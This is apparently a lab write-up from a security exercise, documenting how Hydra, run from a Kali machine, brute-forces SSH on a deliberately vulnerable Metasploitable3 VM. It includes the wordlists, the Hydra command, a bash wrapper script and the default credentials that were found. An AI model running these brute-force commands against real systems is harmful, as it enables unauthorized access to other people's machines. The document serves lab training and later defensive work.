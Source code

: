 # Phase #1 – Setup and Compromise the Service

## Objective

Set up the attacker and victim environments, then compromise a vulnerable SSH service using two methods:

- Phase 1.1: Brute-force attack using a wordlist (Hydra)
- Phase 1.2: Bash script with Hydra to automate the process

## Environment Setup

- Attacker Machine: Kali Linux

  Hostname: kali

  Host-Only IP Address: 192.168.56.104

  NAT IP Address: 10.0.2.15

  Username: kali

- Victim Machine: Metasploitable3

  Hostname: metasploitable3

  Host-Only IP Address: 192.168.56.103

  NAT IP Address: 10.0.2.2

  Username: vagrant

  Password: vagrant

## Targeted Service

- **Service:** SSH
- **Port:** 22
- **Vulnerability Type:** Weak/default credentials
- **Goal:** Compromise SSH access through brute-force login

## Phase 1.1 – Hydra Brute-Force Attack Using Wordlists

### 1. Connectivity Check

Confirmed Kali can reach Metasploitable3 via ping:

```bash
ping 192.168.56.103
```

![Screenshot of results] (image-10.png)

### 2. Created Username and Password Lists

**user.txt**

```
msfadmin
user
postgres
vagrant
```

![Screenshot of results](image-8.png)

**pass.txt**

```
msfadmin
123456
toor
password
vagrant
```

![Screenshot of results](image-9.png)

### 3. Ran Hydra Using Both Files

Command used:

```bash
hydra -L user.txt -P pass.txt ssh://192.168.56.103 -t 4
```

Result:

- Hydra successfully found the credentials:
  - **Username:** `vagrant`
  - **Password:** `vagrant`
    ![Screenshot of results](image-11.png)

## Phase 1.2 – Custom Scripted Attack (Hydra + Bash)

### 1. Created Bash Script

**ssh_bruteforce.sh**

```bash
#!/bin/bash
# Configuration
TARGET_IP="192.168.56.103"
USERNAME="vagrant"
PASSWORD_LIST="pass.txt"

# Run Hydra
echo "[*] Starting SSH brute-force attack on $TARGET_IP..."
hydra -l "$USERNAME" -P "$PASSWORD_LIST" ssh://"$TARGET_IP" -t 4 -f -V
```

![Screenshot of results](image-7.png)

### 2. Ran the Script

```bash
chmod +x ssh_bruteforce.sh
./ssh_bruteforce.sh
```

Output confirmed the attack was successful with valid credentials found:

- **Username:** `vagrant`
- **Password:** `vagrant`
  ![Screenshot of results](image-5.png)

## Conclusion

The SSH service on Metasploitable3 was successfully compromised using Hydra with both a custom wordlist and a Bash script. This confirms the service’s vulnerability to brute-force attacks due to the use of default credentials. The machine is now ready for defensive countermeasures.
